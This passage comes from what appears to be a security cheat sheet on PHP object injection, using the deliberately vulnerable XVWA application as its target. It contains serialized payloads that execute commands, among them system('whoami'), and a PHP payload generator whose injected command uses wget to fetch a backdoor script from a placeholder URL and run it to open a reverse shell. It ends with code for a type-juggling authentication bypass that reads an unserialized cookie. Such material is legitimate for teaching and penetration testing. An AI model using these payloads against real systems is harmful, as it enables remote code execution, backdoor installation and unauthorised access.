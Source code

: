 ```php
        if (is_array($var1)) {
            echo "<br/>" . $var1[0] . " - " . $var1[1];
        }
    } else {
        echo ""; # nothing happens here
    }
?>
```

Payload:

```
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}
```

This vulnerability is **extremely dangerous**, as it could also lead to an **RCE (Remote Code Execution)** exploit.
An attacker could use a payload which downloads a script and starts a reverse shell connected to the web server.
The payload could look like this:

```php
<?php
    class PHPObjectInjection
    {
        // Change URL/ filename to match your setup
        public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
    }
    echo urlencode(serialize(new PHPObjectInjection));
?>
```

Of course, there are many other methods to achieve a reverse shell once you have the ability to execute code on the target machine.

### Authentication bypass - Type juggling

```php
<?php
    include("credentials.php");

    // $adminName = "random";
    // $adminPassword = "pass";

    $data = unserialize($_COOKIE['auth']);

    if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
        echo "You logged in as admin!";
    } else {
        echo "Login failed!";
    }
?>
```
